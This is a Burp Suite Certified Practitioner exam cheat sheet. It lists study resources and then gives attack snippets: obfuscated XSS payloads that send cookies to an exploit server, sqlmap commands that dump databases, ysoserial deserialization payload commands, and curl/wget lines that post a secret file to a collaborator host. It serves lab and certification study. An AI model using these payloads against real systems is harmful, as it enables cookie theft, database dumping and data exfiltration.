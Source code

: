 # Resources
- [botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/blob/main/README.md)
- [DingyShark/BurpSuiteCertifiedPractitioner](https://github.com/DingyShark/BurpSuiteCertifiedPractitioner?tab=readme-ov-file)
- [micahvandeusen - burp-suite-certified-practitioner-exam-review](https://micahvandeusen.com/burp-suite-certified-practitioner-exam-review/)
- [ChrisM-X/PortSwigger-Academy-CheatSheets](https://github.com/ChrisM-X/PortSwigger-Academy-CheatSheets/tree/master/_Prepare%20For%20Burp%20Suite%20Exam)
- [pawlokk/burp-exam-notes/blob/main/methodology.txt](https://github.com/pawlokk/burp-exam-notes/blob/main/methodology.txt)
- [bscpcheatsheet.gitbook.io/exam](https://bscpcheatsheet.gitbook.io/exam)
- [Notes template](https://www.y-security.de/news-en/looking-at-the-portswigger-burp-suite-certification/index.html)
# Payload processing
- [Obfuscating attacks using encodings](https://portswigger.net/web-security/essential-skills/obfuscating-attacks-using-encodings)
# XSS
```html
"-(window["document"]["location"]="https://exploit-server%2eweb-security-academy%2enet/?"+window["document"]["cookie"])-"
"}; window['docu'+'ment']['loc'+'ation']='https://subdomain%2eexploit-server%2enet/?'+(window['docu'+'ment']['coo'+'kie']);//
<script>
location ='https://url.web-security-academy.net/?SearchTerm=%22-%28window%5B%22document%22%5D%5B%22location%22%5D%3D%22https%3A%2F%2Fexploit-0ab600a70433f087809c020301d4004f%252eexploit-server%252enet%2F%3F%22%2Bwindow%5B%22document%22%5D%5B%22cookie%22%5D%29-%22';
</script>
```

# SQLi
```bash
sqlmap -u "url" --cookie="cookies" --batch --dbs --random-agent -p "parameter"
sqlmap -u "url" --cookie="cookies" --batch --dbs --random-agent -p "parameter" --proxy="http://127.0.0.1:8080/" --level=3
sqlmap -u "url" --cookie="cookies" --batch -D database -T table --random-agent -p "parameter" --proxy="http://127.0.0.1:8080/" --level=3 --dump
```

# Insecure Deserialization
- Command
```bash
java -jar ysoserial-all.jar [payload] "command"
```
- Base64 encode the payload piping the output to `base64 -w 0`
   - For MacOS use the `gbase64` command which accepts the -w flag

```bash
java -jar ysoserial-all.jar [payload] "command" | gzip -c | base64 -w 0
```
# Command for data exfiltration
```bash
curl --data @/home/carlos/secret subdomain.collaborator.net
wget --post-file /home/carlos/secret subdomain.collaborator.net
```

